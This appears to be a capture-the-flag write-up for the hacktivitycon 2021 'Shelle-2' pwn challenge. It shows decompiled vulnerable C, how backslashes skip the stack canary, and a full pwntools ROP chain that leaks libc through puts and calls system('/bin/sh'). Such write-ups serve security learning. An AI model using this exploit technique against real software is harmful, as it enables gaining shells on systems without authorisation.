 # Shelle-2 - hacktivitycon 2021

- Category: Pwn
- Points: 493
- Solves: 27
- Solved by: drw0if

## Description

Professor Shelle was mad that everyone bypassed her psuedo shell and read the flag, Now she removed the vulnerability and thinks that the new strict-psuedo shell is secure.. hah, time to prove her wrong.

## Solution

We have to deal with a `wannabe-shell`, it asks us for a command and... doesn't execute it because everything is removed for security reasons.

The vulnerable part of the code is inside the `run_cmds` function, of course:
```C
    ...
    string_offset = 56;
    ...
    input_index = 0;
    ...
    getline(&input_line, &n, stdin);
    ...
    string_index = string_offset;
    while ( string_index <= 499 )
    {
      if ( input_line[input_index] == 92 )
      {
        ++input_index;
      }
      else
      {
        if ( input_line[input_index] )
          s[input_index - 1 + string_offset] = input_line[input_index];
        ++input_index;
        ++string_index;
      }
    }
```

If we supply a lot of `\` characters (92 ASCII) we can move `input_index` as far as we want, then we can provide our payload and let the loop copy it inside the stack buffer `s`.

The binary has the following protections:
```bash
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
so everything we can do is ROP attack and we have to deal with the canary, but we have no PIE so no leak is needed for the binary addresses.

The stack canary can be defeated simply by skipping it with enough `\` characters and writing just after it.

We have another problem: it doesn't copy all the characters, infact if we supply `\x00` it will be skipped in the check:
```
        if ( input_line[input_index] )
          s[input_index - 1 + string_offset] = input_line[input_index];
```

So if the stack has some bytes where we need to put a zero byte our ropchain won't work.

Luckily we have enough stack and input space to place our chain in pieces and use some `pop stuff` gadget to pad the different pieces.

Since we want to pop us a shell we need to leak a libc address, the correct libc can be found in two different ways:
- we can extract it from the docker container provided with the challenge
- we can leak two addresses and use [libc database](https://libc.blukat.me/) to identify the correct one

In the end we can use the classic ropchain:
```python
# leak puts@got
payload += p64(pop_rdi)
payload += p64(exe.got.puts)
payload += p64(puts)

# second stage
payload += p64(exe.sym.run_cmds)

# system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym.system)
```

but with all the stack cleanup stuff it becomes:
```python
payload += p64(pop_5)
payload += p64(5)
payload += p64(4)
payload += p64(3)
payload += p64(2)
payload += p64(1)

payload += p64(pop_4)
payload += p64(4)
payload += p64(3)
payload += p64(2)
payload += p64(1)

payload += p64(pop_3)
payload += p64(3)
payload += p64(2)
payload += p64(1)

# leak puts@got
payload += p64(pop_rdi)
payload += p64(exe.got.puts)
payload += p64(puts)

payload += p64(pop_3)
payload += p64(3)
payload += p64(2)
payload += p64(1)

# second stage
payload += p64(exe.sym.run_cmds)

payload += p64(pop_2)
payload += p64(2)
payload += p64(1)

payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh')))

payload += p64(pop_2)
payload += p64(2)
payload += p64(1)

payload += p64(libc.sym.system)
```